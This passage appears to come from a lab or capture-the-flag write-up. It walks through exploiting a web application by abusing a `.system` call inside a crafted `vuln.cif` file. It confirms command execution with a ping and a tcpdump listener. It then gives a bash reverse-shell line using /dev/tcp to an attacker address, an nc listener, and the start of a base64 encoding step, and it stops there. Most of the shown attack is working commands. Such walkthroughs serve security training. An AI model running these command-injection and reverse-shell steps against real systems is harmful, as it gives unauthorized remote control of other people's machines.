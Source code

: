 Modify the `.system` call to ping our machine through the VPN IP address.

Start a listener on our local machine:
```
sudo tcpdump -n -i tun0 icmp
```
![Success Ping Attempt](./images/3.png)

Expected Results:
- Successful ping received on our local machine ✅
- Target web application throws an error due to failing to process the file ❌

## Setting Up a Reverse Shell
### Attempt 1: Bash Reverse Shell
Modify `.system` in `vuln.cif`:
```
.system ("bash -c 'bash -i >& /dev/tcp/<local ip addr>/<port> 0>&1'")
```
Start listener:
```
nc -nvlp 1234
```
**Result**: No shell received ❌

### Attempt 2: Base64 Encoding the Payload
Encode payload in Base64:
```
cat tmp | base64 -w 0
```
![Base64 Encode](./images/4.png)
